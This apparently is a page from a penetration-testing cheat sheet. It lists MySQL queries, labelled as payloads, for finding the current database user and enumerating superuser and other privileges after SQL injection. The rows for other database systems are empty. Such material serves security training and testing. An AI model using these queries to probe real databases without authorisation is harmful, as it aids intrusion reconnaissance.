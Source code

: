 
* * *

# DB User
Determine which user we are within the database.

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT USER() <br> SELECT CURRENT_USER() <br> SELECT user from mysql.user        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |   

* * *

# User Privileges
Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

## Super admin privileges
The query returns Y, which means YES, indicating superuser privileges. 

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT super_priv FROM mysql.user WHERE user='[DB_USER]'        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |   


## Other Privileges
We can also dump other privileges we have directly from the schema, with the following query:

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'[DB_USER]@localhost'"        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |   

